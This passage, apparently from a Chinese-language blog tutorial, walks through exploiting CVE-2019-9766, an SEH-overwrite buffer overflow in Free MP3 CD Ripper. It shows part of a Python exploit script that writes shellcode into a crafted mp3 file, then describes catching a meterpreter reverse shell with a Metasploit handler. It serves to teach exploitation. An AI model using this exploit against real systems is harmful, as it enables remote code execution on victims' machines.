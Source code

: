 ```python
buf += "\x02\xd9\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x75\xee\xc3" 
pad = "B" * (316-len(nops)-len(buf))
payload = buffer + NSEH + SEH + nops + buf + pad
try:
    f = open("Test_FMCR.mp3","w")
    print "[+] Creating %s bytes mp3 File..." %len(payload)
    f.write(payload)
    f.close()
    print "[+] mp3 File created successfully!"
except:
    print "File cannot be created!"
```
根据`shellcode.py`生成`Test_FMCR.mp3`文件：

![](https://i.loli.net/2020/08/12/SgVmelcPG1Xnhpj.png)

打开`kali`的`msfconsole`：

![](https://i.loli.net/2020/08/12/CHcgedTPAQG9zM4.png)

使用`exploit/multi/handler`模块，设置`lhost`、`lport`、攻击载荷：

![](https://i.loli.net/2020/08/12/KG7wWbvaTfSOIsc.png)

开启监听，然后再目标主机`Windows`上运行`Free MP3 CD Ripper`，并`convert`生成的`Test-FMCR.mp3`文件。`meterpreter session`成功建立：

![](https://i.loli.net/2020/08/12/KdzencaBYWGZLrH.png)

执行`shell`：

![](https://i.loli.net/2020/08/12/LRfG1OJnMyWiPj3.png)

漏洞利用成功！！

## 4 总结

缓冲区溢出漏洞利用除了进行返回地址的覆盖，也可以构造精心准备的`shellcode`覆盖`SEH`链，绕过`SEH`异常处理机制。`CVE-2019-9766`即是通过覆盖`SEH`链来利用缓冲区溢出漏洞，对于二进制漏洞来说，掌握其栈地址的布局非常重要。学会分析栈地址空间，掌握系统保护机制的绕过方法，就能够利用常见二进制漏洞。

## 5 参考

1、https://www.freebuf.com/vuls/199191.html

2、https://www.freebuf.com/vuls/244584.html
